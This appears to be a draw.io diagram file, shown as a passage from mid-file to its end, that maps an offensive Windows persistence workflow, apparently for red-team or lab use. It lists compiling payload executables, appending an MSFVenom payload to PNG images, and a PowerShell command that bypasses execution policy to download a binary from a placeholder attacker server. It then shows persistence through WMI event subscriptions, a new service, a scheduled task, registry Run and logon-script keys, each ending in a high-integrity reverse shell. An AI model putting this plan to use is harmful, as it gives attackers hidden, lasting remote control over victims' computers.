        <mxCell id="Op0RA1QyIyzGp62vVNNJ-9" value="Scheduled_Task_Template.xml" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-0" vertex="1">
          <mxGeometry x="265" y="55" width="193" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-10" value="High IL Tools Directory&#xa;(9202.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="Op0RA1QyIyzGp62vVNNJ-9" vertex="1">
          <mxGeometry y="30" width="193" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-14" target="Op0RA1QyIyzGp62vVNNJ-23" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-14" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1200" width="880" height="210" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-19" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-20" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-22" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1" connectable="0">
          <mxGeometry x="70" y="40" width="140" height="150" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-15" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-22" vertex="1">
          <mxGeometry width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-16" value="Pers_High.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-17" value="9201.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-18" value="9202.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-21" value="9203.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-22" vertex="1">
          <mxGeometry y="120" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-20" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-23" target="Op0RA1QyIyzGp62vVNNJ-32" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-23" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1470" width="1160" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-24" value="Pers_High.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-25" value="9201.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-26" value="9202.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-27" value="9201.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-28" value="9202.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="700" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-29" value="9203.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-31" value="Scheduled_Task_Template.xml" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="960" y="50" width="180" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-30" value="9203.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="1300" y="1520" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-32" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1643" width="960" height="382" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-33" value="Download staged binaries and png&#39;s to High IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-34" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_High.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-35" value="Execute Pers_High.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-36" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-33" target="Op0RA1QyIyzGp62vVNNJ-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-4" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-37" target="HUqxwyjqBnD8ekD1RPLn-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-37" value="Create WMI Event Filter, Subscription, and Binding (Every min.)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="470" y="100" width="130" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="Op0RA1QyIyzGp62vVNNJ-37" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-39" value="Create New Service&lt;br&gt;(On-Demand)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="Op0RA1QyIyzGp62vVNNJ-39" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-44" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-39" target="HUqxwyjqBnD8ekD1RPLn-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-0" target="Op0RA1QyIyzGp62vVNNJ-41" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-0" value="Execute 9201.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="638" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-7" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-6" target="Op0RA1QyIyzGp62vVNNJ-43" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-6" value="Execute 9202.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="638" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-8" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1" connectable="0">
          <mxGeometry x="806" y="162" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-43" value="Read Payload From 9202.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-8" vertex="1">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-46" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-8" vertex="1">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-9" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1" connectable="0">
          <mxGeometry x="806" y="60" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-41" value="Read Payload From 9201.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-9" vertex="1">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-45" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-9" vertex="1">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-13" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-10" target="HUqxwyjqBnD8ekD1RPLn-12" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-10" value="Import Scheduled_Task_Template.xml&lt;br&gt;(Every 2 min.)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="470" y="242" width="180" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="HUqxwyjqBnD8ekD1RPLn-10" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="320" y="170.0" as="sourcePoint" />
            <mxPoint x="480" y="205" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-12" target="HUqxwyjqBnD8ekD1RPLn-15" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-12" value="Execute 9203.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="680" y="282" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-14" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1" connectable="0">
          <mxGeometry x="830" y="282" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-15" value="Read Payload From 9203.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-14" vertex="1">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-16" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-14" vertex="1">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-0" value="Create Registry Run Key" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="840" y="760" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-1" value="Create Registry Logon Script Key Pointing to .bat Logon Script" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="840" y="861" width="120" height="69" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P7n5YuG6-lRFGP6FSJ7v-0" target="dP6RbfBJEISetV5Z3pFI-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-4" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="dP6RbfBJEISetV5Z3pFI-0" target="P6aCfQ930mBBJoiv-hOj-1" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="790" y="768" as="sourcePoint" />
            <mxPoint x="840" y="745" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="dP6RbfBJEISetV5Z3pFI-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="dP6RbfBJEISetV5Z3pFI-1" target="kM2FHF2urjBJhsgAb-iy-3" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="960" y="745.059" as="sourcePoint" />
            <mxPoint x="1010" y="783" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="z6HOM-UdMG8HWjAG-id3-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.42;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="z6HOM-UdMG8HWjAG-id3-0" target="dP6RbfBJEISetV5Z3pFI-1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="790" y="766" as="sourcePoint" />
            <mxPoint x="760" y="871" as="targetPoint" />
          </mxGeometry>
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
